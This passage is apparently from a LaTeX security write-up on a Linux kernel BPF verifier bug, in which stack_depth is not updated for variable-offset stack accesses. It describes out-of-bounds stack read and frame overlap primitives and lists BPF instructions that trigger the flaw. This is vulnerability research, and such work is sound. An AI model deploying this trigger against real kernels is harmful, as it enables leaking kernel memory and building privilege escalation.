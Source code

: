 Critically, \texttt{update\_stack\_depth()} is called from \texttt{check\_mem\_access()} with a fixed \texttt{off} parameter that \textbf{does not include the variable range}. For a variable-offset access like \texttt{fp + [-72, -16]}, the fixed part passed to \texttt{update\_stack\_depth()} is 0, so \texttt{stack\_depth} is not updated.

\subsection{Exploiting the Stack Bug}

The mismatch between \texttt{allocated\_\allowbreak stack} (the verifier's internal tracking, which grows correctly) and \texttt{stack\_depth} (runtime allocation, undersized) creates two primitives:

\begin{enumerate}
    \item \textbf{OOB Stack Read}: The variable-offset write marks stack slots as \texttt{STACK\_MISC} (``initialized''), allowing subsequent reads. At runtime, only one slot is actually written, others contain residual kernel data from previous stack usage.
    \item \textbf{Stack Frame Overlap}: When subprogram calls are used, an undersized \texttt{stack\_\allowbreak depth} means the callee's JIT frame may overlap with the caller's frame or kernel stack data.
\end{enumerate}

\textbf{Trigger Conditions:}
To trigger the vulnerability, I construct a BPF register with variable offset:
\begin{lstlisting}[style=kernel]
// Create variable offset: (ktime & 7) << 3 = [0, 56]
BPF_CALL_FUNC(BPF_FUNC_ktime_get_ns),  // R0 = random
BPF_ALU64_IMM(BPF_AND, BPF_REG_0, 7),  // R0 = [0,7]
BPF_ALU64_IMM(BPF_LSH, BPF_REG_0, 3),  // R0 = [0,56]
BPF_MOV64_REG(BPF_REG_7, BPF_REG_0),
BPF_ALU64_IMM(BPF_ADD, BPF_REG_7, -72),// R7 = [-72,-16]

// Variable-offset stack write
BPF_MOV64_REG(BPF_REG_2, BPF_REG_10),  // R2 = fp
BPF_ALU64_REG(BPF_ADD, BPF_REG_2, BPF_REG_7), // R2 = fp+var
BPF_ST_MEM(BPF_DW, BPF_REG_2, 0, 0xDEADCAFE), // *R2 = marker
\end{lstlisting}

The 8-byte alignment (\texttt{LSH 3}) is required to satisfy the verifier's alignment checks for stack accesses. The use of \texttt{ktime\_get\_ns()} produces a truly variable value at both verification and runtime.

